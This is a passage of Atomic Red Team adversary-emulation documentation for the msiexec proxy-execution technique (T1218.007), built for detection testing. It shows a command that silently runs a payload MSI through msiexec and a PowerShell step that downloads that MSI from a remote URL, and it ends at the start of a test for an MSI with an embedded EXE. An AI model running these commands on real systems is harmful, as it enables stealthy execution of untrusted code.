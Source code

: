 
#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_DLL.msi|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|
| action | Specifies the MSI action to perform: i (install), a (admin), j (advertise). The included MSI is designed to support all three action types. | string | i|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /q /#{action} "#{msi_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_DLL.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #4 - Msiexec.exe - Execute Local MSI file with an embedded EXE
Executes an MSI containing an embedded EXE using msiexec.exe

**Supported Platforms:** Windows


**auto_generated_guid:** ed3fa08a-ca18-4009-973e-03d13014d0e8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_EXE.msi|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|
| action | Specifies the MSI action to perform: i (install), a (admin), j (advertise). The included MSI is designed to support all three action types. | string | i|
